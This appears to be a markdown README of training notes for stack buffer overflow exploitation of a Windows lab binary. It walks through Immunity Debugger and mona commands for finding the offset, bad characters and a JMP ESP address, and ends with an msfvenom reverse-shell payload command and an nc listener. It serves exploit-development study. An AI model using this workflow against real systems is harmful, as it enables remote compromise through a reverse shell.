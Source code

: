 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
    !mona config -set workingfolder c:\mona\%p

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <string+400>
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
    !mona findmsp -distance 600
* Locate "EIP contains normal pattern: <> (offset <>)"
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to 1978
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
### Iteration 0
* Create a bytearray in Mona:
    !mona bytearray -b "\x00"
    _Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_
* In Kali, create and run a python script to generate bad characters:
    from __future__ import print_function
    		
    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')
    	
    print()
* Update payload variable in exploit.py with badchars string

### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Run !mona compare with the ESP address
    !mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
    !mona bytearray -b "\x00\x07\x2e\xa0"
    _Note: don't include sequential characters_
* Remove badchars from exploit.py:
    payload = "<all non-bad characters>"
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
    !mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
    msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
    padding = "\x90" * 16

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
